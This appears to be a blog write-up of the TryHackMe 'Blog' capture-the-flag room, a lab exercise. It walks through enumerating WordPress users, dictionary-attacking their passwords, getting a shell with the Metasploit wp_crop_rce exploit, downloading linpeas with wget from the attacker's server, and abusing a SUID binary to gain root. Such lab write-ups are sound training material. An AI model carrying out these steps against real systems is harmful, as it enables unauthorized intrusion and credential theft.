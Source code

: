 ```yaml
---
title: "TryHackMe | Blog CTF"
layout: post
---
```


![wordpress-logo](http://growtowinmarketing.com/wp-content/uploads/2015/06/How-To-Write-a-WordPress-Post-7.png)

Hello Guys!

In this Post we will discuss the Blog CTF on TryHackMe.
At this point its a new Room (5 Days old).
In order to get the blog to work with AWS, you'll need to add blog.thm 
to your /etc/hosts file.

URL: [Blog](https://tryhackme.com/room/blog)

Difficulty: Medium

Author: [Nameless0ne](https://tryhackme.com/p/Nameless0ne)


As always, I started by Enumerating the System.

Nmap gor me the following Results:

![nmap](https://cdn.discordapp.com/attachments/723180241140318278/733283213937606666/unknown.png)

Afterwards I ran enum4linux and Gobuster with the popular common.txt Wordlist.

![gobuster](https://cdn.discordapp.com/attachments/723180241140318278/733284680522137750/unknown.png)
![enum4linux](https://cdn.discordapp.com/attachments/723180241140318278/733284876538740777/unknown.png)
![enum4linux-nbt](https://cdn.discordapp.com/attachments/723180241140318278/733285029433835520/unknown.png) 

In the Actual Site, we can also see two Names which we could use to Bruteforce a Password: 

![names](https://cdn.discordapp.com/attachments/723180241140318278/733289155953688636/unknown.png)

I used all Usernames I got up until that point, and made a custom Username-List. I simply changed the formats
from Names to usernames, for example: 

```bob johnson -> bob.johnson -> johnson.bob -> bob-johnson -> bob-johnson123 ...```

Thats what you could do on another Site. Since we got a Wordpress Site, we can use a Tool called **wpsscan** to 
Enumerate Users and Dictionary Attack their Password with rockyou.txt.

```
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

As I said before, from here you can use the Tool with the two found Usernames to Dicitonary attack the 

two Users.

![attackingusers](https://cdn.discordapp.com/attachments/723180241140318278/733316945226760292/unknown.png)

After getting the Password for one of the Users, you will get Access to the Panel. You have no rights

to actually Post anything. We need to PrivEsc. 

![panel](https://cdn.discordapp.com/attachments/723180241140318278/733317602692300830/unknown.png)

Since this is a outdated WordPress Version, I found a [Exploit](https://www.exploit-db.com/exploits/46662) for it.

It has its own Metasploit Module in **exploit/multi/http/wp_crop_rce**. As the Name says, its a RCE Exploit.

![msfmodul](https://cdn.discordapp.com/attachments/723180241140318278/733319786632708184/unknown.png)
![meterpreter](https://cdn.discordapp.com/attachments/723180241140318278/733320446182817832/unknown.png)

As we can see, we gained a Meterpreter Session. We are currently **www-data**. We have to PrivEsc again.

![www-data](https://cdn.discordapp.com/attachments/723180241140318278/733322172495298590/unknown.png)

I opened a Shell to navigate faster. I had to spawn the Bash Shell with the following Command:

```python -c 'import pty; pty.spawn("/bin/bash")' ```

![shelldrop](https://cdn.discordapp.com/attachments/723180241140318278/733323150846066768/unknown.png)

The actual User Flag in /home/bjoe1 turns out to be a Fake User Flag. 

In order to PrivEsc the right way, I uploaded linpeas onto the System. I created a Python Web Server 

on my local Machine with the Command ```python3 -m http.server [PORT]```. The Webserver needs to be initialized
in the Folder, the File(s) you want to Download are stored. Afterwards I ran the Command 
```wget http://{IP}:{PORT}/linpeas.sh``` to Download the File. Make sure to be in a Direvtory where you are
able to Execute, /tmp is always a good one. Dont forget to give the File execute Perms.

![linpease](https://cdn.discordapp.com/attachments/723180241140318278/733328427846992012/unknown.png) 

Linpease gave us the following SUID PriEsc Methods:

![privesclin](https://cdn.discordapp.com/attachments/723180241140318278/733333551696707656/unknown.png)

I additionally ran the following Command:

```find -perm -400 -ls 2>/dev/null```

![dev](https://cdn.discordapp.com/attachments/723180241140318278/733340159277531196/unknown.png)

So as we can see, there is a weird "checker" Programm. After some basic Reverse Engeneering, I saw that I could
get Admin (UID 0) by setting up a new enviroment Variable.

Ebviroment Variables are Variable which can be used everywhere, they simply store a string. The Program requires you
to have such a Variable "admin". 

To create a new one you will have to aplly the following Command:

```export admin=admin ```

Afterwards you will be able to run the Script again and gain Root.

![root](https://cdn.discordapp.com/attachments/723180241140318278/733349192449261628/unknown.png)

Credits go out to [Power](https://tryhackme.com/p/power). He is part of the [BayByte Team ](https://discord.gg/RgBGcvz) and helped 
me out with the PrivEsc! 
 
